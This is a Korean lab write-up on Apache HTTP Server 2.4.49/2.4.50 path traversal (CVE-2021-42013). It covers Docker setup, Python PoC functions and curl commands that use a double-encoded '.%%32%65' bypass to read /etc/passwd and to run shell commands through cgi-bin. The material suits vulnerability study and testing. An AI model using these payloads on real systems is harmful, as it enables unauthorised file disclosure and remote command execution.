





# Apache HTTP Server 2.4.50의 Path traversal & file disclosure 취약점 (CVE-2021-42013)

CVE-2021-42013은 이전 [CVE-2021-41773](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773)의 패치가 불완전하게 적용되어 발생한 취약점으로, 공격자가 Alias 계열 지시어로 설정된 디렉터리 외부의 파일을 경로 탐색(path traversal) 공격을 통해 노출시킬 수 있다.

이 취약점은 Apache HTTP Server **2.4.49** 및 **2.4.50** 버전에 영향을 미치며 이전 버전에는 영향을 미치지 않는다.

참고 자료:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/roman_soft/status/1446252280597078024

## 환경 구성

취약한 Apache HTTP 서버 구성을 위해 Dokerfile과 docker-compose.yml 파일을 같은 폴더에 넣은 후 아래 명령어를 실행한다.
```
docker compose build
docker compose up -d
```

서버가 실행된 후 `http://<IP 주소>:8080`으로 접속하면 Apache 기본 페이지의 "It works!"를 볼 수 있다.


## PoC.py 실행
Apache HTTP Server 2.4.50에서는 CVE-2021-41773 페이로드(`http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`)를 차단하였으나 패치가 불완전하여 우회가 가능하다.
icons 폴더 `.%2e`대신 `.%%32%65`를 사용하면 우회할 수 있다.

해당 페이로드는 내부적으로 `icons/../../../../../../etc/passwd`로 처리되고 icons 디렉터리에서 상위 디렉터리로 이동하여 `/etc/passwd`에 접근한다.

PoC.py 실행에 Python의 requests 라이브러리를 사용하므로 `pip install requests`를 통해 미리 설치한다.

- PoC.py
```
# /etc/passwd 정보 노출 file disclosure
def path_traversal(host="localhost", port=8080, depth=7):

    path = "/".join([".%2e"] * depth) # .%2e 를 depth만큼 반복
    url = f"http://{host}:{port}/icons/{path}/etc/passwd"
    print(f"[+] 파일 정보 노출 테스트:\n    {url}\n")

    r = requests.get(url, allow_redirects=True)
    print(f"Status: {r.status_code}\n")
    print(r.text)
```



- CMD
```
curl -v --path-as-is http://localhost:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```
 `/etc/passwd` 파일을 성공적으로 확인할 수 있다.



# Path traversal
서버에 CGI(mod_cgi 또는 mod_cgid) 모듈이 활성화되어 있으면, 동일한 기법으로 임의 명령 실행까지 가능하다
- PoC.py
```
# CGI RCE 테스트
def cgi_rce(host="localhost", port=8080, depth=7, cmd="id"):

    path = "/".join([".%2e"] * depth)
    url = f"http://{host}:{port}/cgi-bin/{path}/bin/sh"
    print(f"[+] CGI RCE 테스트:\n    {url}\n    cmd: {cmd}\n")

    payload = f"echo; {cmd}" # echo;id 
    r = requests.post(url, data=payload)
    print(f"Status: {r.status_code}\n")
    print(r.text)
```



- CMD
```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```


 id 명령 실행 결과가 그대로 반환되는 것을 확인할 수 있다.
